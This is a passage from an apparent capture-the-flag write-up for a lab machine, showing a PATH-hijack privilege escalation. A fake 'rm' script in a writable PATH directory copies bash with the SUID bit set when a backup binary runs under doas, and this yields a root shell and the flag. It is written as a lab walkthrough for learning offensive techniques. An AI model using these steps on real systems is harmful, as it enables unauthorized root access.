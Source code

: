 ```bash
/usr/bin/mysqldump --databases %s > /tmp/temp.sql && /usr/bin/gzip /tmp/temp.sql -c > %s && rm /tmp/temp.sql
```

Since we can use our `PATH` environment variable while executing the `backups` binary, which uses the `libbackup.so` library, we can exploit this to escalate privileges.

`julian`'s `PATH` already contains writable directories.

```bash
julian@solar:~$ echo $PATH
/home/julian/.nvm/versions/node/v22.7.0/bin:/home/julian/.local/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

We create an executable `rm` file; it is the only binary executed without an absolute path in `libbackup.so`.

```bash
julian@solar:~$ nano .local/bin/rm

julian@solar:~$ cat .local/bin/rm
#!/bin/bash

cp /bin/bash /tmp/
chmod u+s /tmp/bash

julian@solar:~$ chmod +x .local/bin/rm
```

We run the `backups` binary with `doas` using `julian`'s password and an existing database name. This last step is crucial; otherwise, the `rm` command will not be executed.

```bash
julian@solar:~$ doas /usr/local/bin/backups solar_energy_db
doas (julian@solar) password: 
Backup completed successfully: /var/www/sunfriends.nyx/database.sql.gz

julian@solar:~$ ls -la /tmp/bash 
-rwsr-xr-x 1 root root 1265648 sep  4 22:08 /tmp/bash
```

Using the `bash` binary with SUID, we can access the root shell and read the flag.

```bash
julian@solar:~$ /tmp/bash -p

bash-5.2# cat /root/root.txt 
44d**************************5f5
```
